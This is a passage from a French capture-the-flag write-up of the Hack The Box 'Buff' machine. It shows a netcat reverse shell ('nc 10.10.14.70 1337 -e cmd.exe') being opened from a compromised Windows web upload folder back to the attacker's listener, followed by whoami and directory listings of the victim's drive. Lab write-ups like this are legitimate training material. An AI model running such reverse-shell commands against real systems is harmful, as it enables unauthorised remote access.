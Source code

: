 ~~~
21/07/2020  09:26           675,752 plink.exe
               4 File(s)        780,469 bytes
               2 Dir(s)   8,049,360,896 bytes free
~~~

On ouvre un listener sur le port 1337 et on lance nc

`C:\xampp\htdocs\gym\upload> nc 10.10.14.70 1337 -e cmd.exe`

~~~
root@Host-001:~/Bureau/htb/buff# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.70] from (UNKNOWN) [10.10.10.198] 51250
Microsoft Windows [Version 10.0.17134.1550]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>whoami
whoami
buff\shaun

C:\xampp\htdocs\gym\upload>cd C:/
cd C:/

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\

16/06/2020  19:08    <DIR>          PerfLogs
21/07/2020  09:34    <DIR>          Program Files
12/04/2018  10:16    <DIR>          Program Files (x86)
16/06/2020  20:52    <DIR>          Users
16/06/2020  19:08    <DIR>          Windows
16/06/2020  16:40    <DIR>          xampp
               0 File(s)              0 bytes
               6 Dir(s)   8,049,311,744 bytes free

C:\>cd Users
cd Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users

16/06/2020  20:52    <DIR>          .
16/06/2020  20:52    <DIR>          ..
16/06/2020  16:48    <DIR>          Administrator
16/06/2020  15:08    <DIR>          Public
16/06/2020  15:11    <DIR>          shaun
               0 File(s)              0 bytes
               5 Dir(s)   8,049,065,984 bytes free

C:\Users>cd shaun
cd shaun

C:\Users\shaun>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7
~~~